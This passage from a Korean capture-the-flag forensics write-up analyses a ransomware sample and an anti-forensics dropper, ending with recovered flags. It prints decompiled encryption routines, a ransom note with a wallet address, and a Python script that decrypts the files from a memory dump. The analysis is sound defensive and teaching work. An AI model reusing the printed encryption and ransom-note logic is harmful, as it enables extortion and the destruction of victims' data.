  FirstFileA = FindFirstFileA((LPCSTR)FileName, &FindFileData);
  v3 = FirstFileA;
  if ( FirstFileA != (HANDLE)-1i64 )
  {
    do
    {
      if ( FindFileData.cFileName[0] != 46
        || FindFileData.cFileName[1] && (FindFileData.cFileName[1] != 46 || FindFileData.cFileName[2]) )
      {
        swprintf(Buffer, 0x104ui64, "%s\\%s", a1, FindFileData.cFileName);
        if ( (FindFileData.dwFileAttributes & 0x10) != 0 )
        {
          sub_140106EC0(Buffer);
        }
        else if ( strcmp(FindFileData.cFileName, "250731_Paysheet.docx") )
        {
          sub_140106B90((char *)Buffer);
        }
      }
    }
    while ( FindNextFileA(v3, &FindFileData) );
    LODWORD(FirstFileA) = FindClose(v3);
  }
  return (int)FirstFileA;
}
```

위 함수에서 확인 가능한 내용은 아래와 같습니다.

1. 대상의 이름이 . 또는 .. 인경우 생략
2. 대상이 디렉터리라면 sub_140106EC0 함수 재귀로 실행
3. 파일의 이름이 250731_Paysheet.docx 이라면 암호화 하지 않고 생략
4. 그외 모든 파일 암호화 진행.

암호화 로직이 담겨있는 함수는 sub_140106B90 인 것을 알 수 있습니다. sub_140106B90 함수의 내용을 확인해 보면 아래와 같습니다.
```
void __fastcall sub_140106B90(char *FileName)
{
  int v2; // eax
  unsigned int v3; // ebx
  void *v4; // rax
  void *v5; // rdi
  int v6; // eax
  __int64 v7; // rsi
  __int64 v8; // rbx
  char *v9; // r14
  int v10; // eax
  int v11; // ebp
  int v12; // ebp
  size_t v13; // r12
  char *v14; // rax
  char *v15; // rbx
  FILE *v16; // rax
  FILE *v17; // rbp
  _BYTE *v18; // rax
  FILE *v19; // rax
  FILE *v20; // rbp
  _QWORD *v21; // rax
  __int64 v22[2]; // [rsp+30h] [rbp-398h] BYREF
  char v23[20]; // [rsp+40h] [rbp-388h] BYREF
  unsigned int MaxCharCount; // [rsp+54h] [rbp-374h]
  char Destination[272]; // [rsp+70h] [rbp-358h] BYREF
  wchar_t FileNamea[136]; // [rsp+180h] [rbp-248h] BYREF
  wchar_t Buffer[136]; // [rsp+290h] [rbp-138h] BYREF
  int v28; // [rsp+3D8h] [rbp+10h] BYREF

  v2 = open(FileName, 0x8000);
  v3 = v2;
  if ( v2 < 0 )
    goto LABEL_20;
  if ( (int)sub_1402D5670((unsigned int)v2, v23) < 0 || (v4 = j__malloc_base((int)MaxCharCount), (v5 = v4) == 0i64) )
  {
    sub_1402D36AC(v3);
    exit(1);
  }
  v6 = read(v3, v4, MaxCharCount);
  if ( v6 != MaxCharCount )
  {
    sub_1402D36AC(v3);
    free(v5);
    exit(1);
  }
  sub_1402D36AC(v3);
  v7 = (int)MaxCharCount;
  if ( (MaxCharCount & 0x80000000) != 0 || !(unsigned int)sub_14010ABE0(v22, 16i64) )
    goto LABEL_20;
  v8 = sub_140107ED0();
  v9 = (char *)j__malloc_base((int)v7 + 16);
  if ( !v9 )
  {
    sub_140107E50(v8);
    exit(1);
  }
  v10 = sub_14010F190();
  sub_140109240(v8, v10, 0, (unsigned int)&Data, (__int64)v22);
  sub_1401092C0(v8, (_DWORD)v9, (unsigned int)&v28, (_DWORD)v5, v7);
  v11 = v28;
  sub_140108FE0(v8, &v9[v28], &v28);
  v12 = v28 + v11;
  sub_140107E50(v8);
  if ( v12 < 0 )
    goto LABEL_20;
  v13 = v12 + 48i64;
  v14 = (char *)j__malloc_base(v13);
  v15 = v14;
  if ( !v14 )
    goto LABEL_20;
  *(_OWORD *)v14 = *(_OWORD *)&Data;
  *((_QWORD *)v14 + 2) = v22[0];
  sub_1402EA8F0(v14 + 24, v9, v12);
  *(_QWORD *)&v15[v12 + 24] = v22[1];
  *(_OWORD *)&v15[v12 + 32] = *(_OWORD *)&Data;
  swprintf(Buffer, 0x104ui64, "%s.ENCRYPT", FileName);
  v16 = fopen((const char *)Buffer, "wb");
  v17 = v16;
  if ( !v16 )
LABEL_20:
    exit(1);
  fwrite(v15, 1ui64, v13, v16);
  fclose(v17);
  strncpy(Destination, FileName, 0x104ui64);
  v18 = (_BYTE *)sub_1402C9110(Destination, 92i64);
  if ( v18 )
    *v18 = 0;
  swprintf(FileNamea, 0x104ui64, "%s\\ransom_note.txt", Destination);
  if ( GetFileAttributesA((LPCSTR)FileNamea) == -1 )
  {
    v19 = fopen((const char *)FileNamea, "w");
    v20 = v19;
    if ( v19 )
    {
      sub_140106860(
        v19,
        "%s",
        "--- All Your Files Have Been Encrypted ---\n"
        "\n"
        "Your files have been encrypted by ransomware.\n"
        "But don't worry ? your files are still recoverable.\n"
        "\n"
        "To successfully restore the encrypted files, please read and follow the instructions below carefully:\n"
        "\n"
        "1. Do not rename the encrypted files or modify them in any way.\n"
        "2. Do not use any third - party recovery tools.Attempting this may permanently damage your files beyond recovery"
        ".\n"
        "3. Send $100, 000 worth of Bitcoin to the wallet address provided below.\n"
        "4. After payment, send proof of the transaction to recover_encrypt@protonmail.com.\n"
        "5. You have exactly 72 hours.After that, the decryption key will be permanently deleted.\n"
        "\n"
        "Wallet address: bc1q3l7y5n9a8xvt2k4c0d5z8mnlphrc3vjd8ey26j\n"
        "\n"
        "--- Time Is Running Out ---\n");
      fclose(v20);
    }
  }
  sub_140106910(FileName);
  v21 = j__malloc_base(0x18ui64);
  if ( v21 )
  {
    v21[2] = Block;
    *v21 = v15;
    v21[1] = v13;
    Block = v21;
  }
  else
  {
    free(v15);
  }
  sub_1402EAF90(v5, 0i64, v7);
  free(v5);
  free(v9);
}
```

위 코드에서 핵심 내용은 아래와 같습니다.

1. 랜덤한 IV 값을 생성한 뒤 AES-128-CBC 방식으로 파일을 암호화.
2. 암호화된 데이터를 중심으로 앞뒤로 IV값 절반인 8바이트씩 붙이고 맨앞과 맨뒤에 16바이트 암호화 키값을 붙여서 저장
(암호화키 16바이트 + IV 앞 8바이트 + 암호화된 데이터 + IV 뒤 8바이트 + 암호화키 16바이트)
3. 파일 명에 .ENCRYPT를 붙여서 파일로 저장
4. 암호화한 파일이 존재하는 폴더에는 랜섬노트 파일 생성 후 원본 파일 완전 삭제
5. 암호화한 데이터를 연결 리스트에 저장(추후 한번에 할당 해제)

위 코드를 통해서 암호화 로직을 확인해 볼 수 있었습니다.

OneDriveUpdater.exe 프로세스의 메모리 덤프에서 암호화된 데이터가 로드되어 있습니다. 이를 식별할때 암호화된 데이터는 앞뒤에 암호화키값으로 저장되어 있기 때문에 M:\name\OneDriveUpdate-1716\minidump에 존재하는 minidump.dmp 파일에서 44707ba889c6779be7382ab013f2f469를 찾아보면 아래와 같습니다.


총 55개의 암호화키 데이터를 찾았으며, 1개의 암호화키는 랜섬웨어가 암호화를 하기 위해서 생성한 랜덤한 암호화키이기 때문에 54개의 암호화키 데이터가 존재하고 1개의 파일에 2개의 암호화키값을 가지고 있기 때문에 27개의 파일이 암호화 되었음을 확인할 수 있습니다.

답: 27

### 4. 회사의 중요 데이터가 저장된 파일를 복호화하고 FLAG를 찾아라.(String)
OneDriveUpdater.exe 프로세스의 메모리 덤프 파일에서 총 27개의 암호화된 데이터를 추출하고 복호화 하는 코드를 작성하여 모든 파일을 복호화 하고 그 중 FLAG 문자열이 있는 파일을 찾아야합니다. 코드는 아래와 같습니다.
```python
import os
from Crypto.Cipher import AES

KEY = bytes.fromhex('44707ba889c6779be7382ab013f2f469')
KEY_LEN = 16
IV_LEN = 16
HEADER = KEY
FOOTER = KEY

def extract_blocks(dump_path, out_dir):
    with open(dump_path, 'rb') as f:
        data = f.read()
    blocks = []
    start = 0
    while True:
        start = data.find(HEADER, start)
        if start == -1:
            break
        end = data.find(FOOTER, start + KEY_LEN)
        if end == -1:
            break
        end += KEY_LEN
        block = data[start:end]
        blocks.append(block)
        start = end
    os.makedirs(out_dir, exist_ok=True)
    for i, block in enumerate(blocks):
        with open(os.path.join(out_dir, f'block_{i}.bin'), 'wb') as f:
            f.write(block)
    return [os.path.join(out_dir, f'block_{i}.bin') for i in range(len(blocks))]

def decrypt_block(block_path, out_path):
    with open(block_path, 'rb') as f:
        block = f.read()
    if not (block.startswith(KEY) and block.endswith(KEY)):
        return False
    iv_front = block[KEY_LEN:KEY_LEN+8]
    iv_back = block[-(KEY_LEN+8):-KEY_LEN]
    iv = iv_front + iv_back
    enc_data = block[KEY_LEN+8:-(KEY_LEN+8)]
    cipher = AES.new(KEY, AES.MODE_CBC, iv)
    dec_data = cipher.decrypt(enc_data)
    with open(out_path, 'wb') as f:
        f.write(dec_data)
    return True

def main():
    dump_file = 'OneDriveUpdate-1716-minidump.dmp'
    out_dir = 'extracted_blocks'
    dec_dir = 'decrypted_blocks'
    os.makedirs(dec_dir, exist_ok=True)
    block_files = extract_blocks(dump_file, out_dir)
    for i, block_file in enumerate(block_files):
        out_path = os.path.join(dec_dir, f'decrypted_{i}.bin')
        decrypt_block(block_file, out_path)

if __name__ == '__main__':
    main()
```
위 코드를 실행해서 확인해 보면 총 27개의 bin 파일이 나오는데 그 중 decrypted_12.jpg 파일에서 FLAG를 확인해 볼 수 있습니다.


답 : vmr5_i5_s0_d1ff1cult

FLAG : HSPACE{CVE-2022-30190_5cr1pt.ps1_27_vmr5_i5_s0_d1ff1cult}

## HERE I AM

랜섬웨어에 감염된 PC의 흔적 분석하는 문제입니다. 문제에서 사용된 악성코드를 실행하면, 드로퍼가 설치 -> 드로퍼가 안티포렌식 행위 진행 -> 랜섬웨어 설치 -> 랜섬웨어 실행순으로 진행됩니다. 서비스 사용 속성 변경, 파일 권한 변경, 레지스트리 삭제 등 다양한 안티포렌식 행위가 적용되어 있습니다. 한정된 아티팩트에서 악성코드를 실행 기록을 유추하는 것이 목표입니다.

해당 문제를 풀기 위해서는 최초침투파일과 악성코드가 사용한 파일2개 마지막으로 Prefetch의 권한을 획득해야합니다.

처음으로 최초 침투 파일을 확인하기 위하여 분석을 진행하면, 아래와 같이 분석 의뢰.hwp.exe파일을 발견할 수 있습니다. 해당 파일이 최초 침투 파일이며, 2025-09-16 AM 6:22:23에 실행되었다고 특정할 수 있습니다.<br>


악성코드가 사용한 파일 2개를 획득하기 위해서는 Amcache 등 다양한 아티팩트를 확인할 수 있습니다. 하지만, 해당 이미지에서는 모든 파일이 암호화되거나, 드로퍼 악성코드에 의하여, 권한이 거부된 상태임으로, 공격자가 안티포렌식 행위를 하지 않아, 오염되지 않은 아티팩트를 식별해야합니다. 해당 증거에서는 `Windows Defender`, `$J`, `$Logfile`, `$MFT`  아티팩트가 오염되지 않은 것으로 확인할 수 있습니다. 

이를 NTFS Log Tracker를 이용하여 분석한 후 DB Browser for Sqlite로 분석하면 아래와 같이, 분석 의뢰.exe.hwp가 실행되어 .pf파일이 생성된 후 Updater.exe와 bat.exe가 생성된 것을 확인할 수 있습니다.<br>


마지막으로, Prefetch의 권한을 확인해야합니다.
이는 `$MFT`, `$Secure:$SDS`, `$Secure:$SDH` 파일로 3개가 필요합니다.

권한을 확인하기 위하여 `$MFT`에서 Prefetch의 폴더를 찾습니다. 해당 증거의 경우, Prefetch의 이름이 하나가 존재하여 쉽게 찾을 수 있었습니다.
이 후, $Standard_imporamtion(이하 $SIA)에서 보안 ID를 획득해야합니다. $SIA의 구조체는 아래와 같습니다.
| 오프셋 | 크기 | 설명 |
|--------|------|------|
| 0x00 | 8 bytes | 속성 헤더 |
| 0x08 | 8 bytes | 생성 시간 |
| 0x10 | 8 bytes | 수정 시간 |
| 0x18 | 8 bytes | MFT 수정 시간 |
| 0x20 | 4 bytes | 접근 시간 |
| 0x24 | 4 bytes | 속성 플래그 |
| 0x28 | 4 bytes | 버전 최대값 |
| 0x2C | 4 bytes | 버전 번호 |
| 0x30 | 4 bytes | 클래스 ID |
| 0x34 | 4 bytes | 소유자 ID |
| 0x38 | 8 bytes | 보안 ID |
| 0x40 | 8 bytes | Quota Charged |

위의 표를 참고하여 찾으면 아래 사진과 같이 0x00000904의 보안 ID를 획득할 수 있습니다.


해당 보안 ID를 `$SDH`에 검색하여 보안 설명자 오프셋을 획득할 수 있습니다. 


이를 통해 해당 위치(0x186180)로 이동하여 보안 설명자를 분석할 수 있습니다.


보안 설명자는 헤더와 ACL(Access Control List), ACE(Access Control Entries)로 이루어져 있습니다. 헤더에는 사용자 SID의 주소, 그룹 SID의 주소 등의 정보를 포함하고 있다. 하지만 접근권한의 분석에서는 헤더의정보는 중요하지 않습니다. ACE에 접근권한에 대한 정보를 가지고 있습니다.

이를 분석하면, 아래와 같이 나타낼 수 있습니다.

ACE Type은 시스템의 보안을 보장하기 위한 장치이며, 보안 개체의 액세스할 수 있는 접근 권한을 소유하고있는지를 나타내며, 이는 아래 표와 같이 접근 허용, 접근 불가, 시스템 감사로 나뉩니다.
| 값 | 설명 |
|----|------|
|0x00|접근이 허용됨|
|0x01|접근 불가|
|0x02|시스템 감사|

액세스 마스크는 해당 ACE가 지원하는 액세스 권한에 해당하는 비트를 포함하는 32비트 값입니다. 액세스 마스크는 해당 32비트를 16진수로 변환하여 있습니다. 대표적인 액세스 마스크는 아래 표와 같이 정리할수 있습니다.
| 권한 | Access Mask |
|------|-------------|
| Full | FF 01 F1 00 |
| Modify | BF 01 13 00 |
| Read & Write & Execute | BF 01 12 00 |
| Read & Write | 9F 01 12 00 |
| Write | 12 01 10 00 |
| Read & Execute | A9 00 12 00 |
| Read | 89 00 12 00 |

이를 통해 프리패치는 접근이 불가하게 되어 있으며, 읽기와 실행 권한이 없는 것으로 확인되었습니다.

답: HSPACE{분석 의뢰.hwp.exe_bat.exe_Updater.exe_0xA9001200}


